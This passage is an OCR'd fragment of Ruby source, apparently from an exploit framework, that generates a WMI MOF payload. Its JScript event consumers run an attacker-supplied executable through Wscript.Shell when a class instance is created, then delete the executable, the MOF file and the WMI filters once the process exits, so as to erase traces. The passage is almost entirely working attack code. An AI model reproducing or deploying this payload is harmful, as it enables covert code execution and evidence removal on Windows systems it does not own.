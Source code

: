 ```ruby
	ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"@EXE@\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass@CLASS@\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
	
};
Instance of ActiveScriptEventConsumer as $cons2
{
	Name = "qndASEC";
	ScriptingEngine = "JScript";
	ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\#{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"@EXE@\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
	Name = "instfilt";
	Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass@CLASS@\\"";
	QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
	Name = "qndfilt";
	Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"@EXE@\\"";
	QueryLanguage = "WQL";
	
};
instance of __FilterToConsumerBinding as $bind
{
	Consumer = $cons;
	Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
	Consumer = $cons2;
	Filter = $Filt2;
};
instance of MyClass@CLASS@ as $MyClass
{
	Name = "ClassConsumer";
};
EOT

# Replace the input vars
mof.gsub!(/@CLASS@/, classname)
mof.gsub!(/@EXE@/, exe)  # NOTE: \ and " should be escaped

mof
end

end
end
```
